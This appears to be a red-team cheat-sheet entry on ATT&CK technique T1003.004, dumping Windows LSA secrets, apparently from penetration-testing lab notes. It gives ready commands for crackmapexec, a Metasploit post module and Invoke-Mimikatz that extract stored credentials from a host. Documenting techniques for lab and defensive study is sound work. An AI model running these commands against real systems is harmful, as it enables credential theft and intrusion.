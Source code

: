 

# Description:

https://attack.mitre.org/techniques/T1003/004/

# LSA Secrets

**ATT\&CK ID:** [T1003.004](https://attack.mitre.org/techniques/T1003/004/)

**Permissions Required:** <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts. LSA secrets are stored in the registry at `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`. LSA secrets can also be dumped from memory.

## Techniques

### Crackmapexec

```bash
crackmapexec smb '10.10.10.100' -u 'moe' -p 'Password123' --lsa
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221312.png)

### Metasploit

```bash
use post/windows/gather/lsa_secrets
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221319.png)

### Mimikatz

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619221325.png)
